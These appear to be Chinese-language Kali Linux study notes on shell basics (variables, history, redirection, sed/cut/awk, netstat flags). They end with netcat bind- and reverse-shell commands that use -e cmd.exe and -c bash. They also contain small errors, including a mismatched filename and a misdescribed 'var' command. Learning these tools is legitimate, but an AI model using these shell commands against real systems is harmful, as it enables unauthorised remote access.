 # kali-linux system learnning

echo $USER 输出当前用户名

echo $PWD 输出当前路径

echo $HOME 家目录

export b=127.0.0.1  设置一个变量，并赋值

ping -c 2 $b 使用ping命令发送2次数据包到该变量值

echo "$$" 使用两个符号来查看当前shell实例进程的id

var="zhangsan" 使用var命令创建一个对象

echo $var 输出当前变量

history 查看当前命令历史 

!1	命令历史当中的第一条命令会被执行

!! 执行上一条命令

ls 列出当前目录下文件

echo "abc" > redirection_test.txt 将abc内容输出到一个文件中,注意，使用>会进行覆盖写入，追加写入可以使用>>

wc -m < redirection_text.txt 记录当前文本中的字符数

echo "lalala a b c d header" | sed 's/header/head/' 使用sed替换文本内的某一段内容

cut -d ":"  -f 1 /etc/passwd 取出当前文本内以冒号分隔的第一串字符

echo "hello::there::friend" | awk -F "::" '{print $1,$3}' 以冒号分隔并取出第一个字符串以及第三个字符串

netstat用来查看系统当前系统网络状态信息，包括端口，连接情况等，常用方式如下：

```
netstat -atunlp,各参数含义如下:

-t : 指明显示TCP端口

-u : 指明显示UDP端口

-l : 仅显示监听套接字(LISTEN状态的套接字)

-p : 显示进程标识符和程序名称，每一个套接字/端口都属于一个程序

-n : 不进行DNS解析

-a 显示所有连接的端口
```

```
正向连接与反向连接
a主机为windows
b主机为linux
正向连接a：nc -nv 192.1.1.2 8888 -e cmd.exe 主机为windows则需要使用-e参数来进行程序重定向
b:nc -lp 8888 在b主机上发起一个监听端口等待a主机的连接  ----监听机获得连接机的cmd执行权限
反向连接a:nc -nv 192.168.1.2 8888 
b:nc -lp 8888 -c bash 使用-c参数将bash丢给连接方  -----a主机获得b主机的shell执行
```

